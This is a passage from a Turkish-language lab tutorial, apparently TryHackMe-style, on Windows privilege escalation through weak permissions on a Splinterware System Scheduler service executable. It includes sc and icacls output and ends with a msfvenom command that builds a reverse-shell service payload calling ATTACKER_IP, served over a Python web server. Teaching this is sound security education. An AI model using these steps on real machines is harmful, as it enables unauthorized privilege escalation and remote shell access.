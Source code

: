 Sistemdeki her servis için bir alt anahtar mevcuttur. Yine ImagePath değerinde ilişkili yürütülebilir dosyayı ve ObjectName değerinde servisi başlatmak için kullanılan hesabı görebiliriz. Servis için bir DACL yapılandırıldıysa, Güvenlik adı verilen bir alt anahtarda saklanacaktır. Şimdiye kadar tahmin ettiğiniz gibi, bu tür kayıt defteri girişlerini varsayılan olarak yalnızca yöneticiler değiştirebilir.

### Servis Executable'ındaki Güvensiz İzinler

Bir servisle ilişkili yürütülebilir dosyanın, bir saldırganın onu değiştirmesine veya değiştirmesine olanak tanıyan zayıf izinleri varsa, saldırgan, servis hesabının yetkilerini basit bir şekilde ele geçirebilir.

Bunun nasıl çalıştığını anlamak için Splinterware System Scheduler'da bulunan bir güvenlik açığına bakalım. Başlamak için sc kullanarak servis yapılandırmasını sorgulayacağız:

    C:\> sc qc WindowsScheduler
    [SC] QueryServiceConfig SUCCESS

    SERVICE_NAME: windowsscheduler
            TYPE               : 10  WIN32_OWN_PROCESS
            START_TYPE         : 2   AUTO_START
            ERROR_CONTROL      : 0   IGNORE
            BINARY_PATH_NAME   : C:\PROGRA~2\SYSTEM~1\WService.exe
            LOAD_ORDER_GROUP   :
            TAG                : 0
            DISPLAY_NAME       : System Scheduler Service
            DEPENDENCIES       :
            SERVICE_START_NAME : .\svcuser1

Güvenlik açığı bulunan yazılımın yüklediği servisin svcuser1 olarak çalıştığını ve servisle ilişkili yürütülebilir dosyanın C:\Progra~2\System~1\WService.exe konumunda olduğunu görebiliriz. Daha sonra yürütülebilir dosyadaki izinleri kontrol etmeye devam ediyoruz:

    C:\Users\thm-unpriv>icacls C:\PROGRA~2\SYSTEM~1\WService.exe

    C:\PROGRA~2\SYSTEM~1\WService.exe Everyone:(I)(M)
                                    NT AUTHORITY\SYSTEM:(I)(F)
                                    BUILTIN\Administrators:(I)(F)
                                    BUILTIN\Users:(I)(RX)
                                    APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                    APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

    Successfully processed 1 files; Failed processing 0 files

Ve burada ilginç bir şeyimiz var. Everyone grubu, servisin yürütülebilir dosyasında değişiklik izinlerine (M) sahiptir. Bu, tercih ettiğimiz herhangi bir payloadı bu dosyanın üzerine kolayca yazabileceğimiz ve servisin bunu yapılandırılmış kullanıcı hesabının yetkileriyle yürüteceği anlamına gelir.

Msfvenom'u kullanarak bir exe-servis payloadı  oluşturalım ve bunu bir python web sunucusu aracılığıyla paylaşalım:

    user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe

    user@attackerpc$ python3 -m http.server
    Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
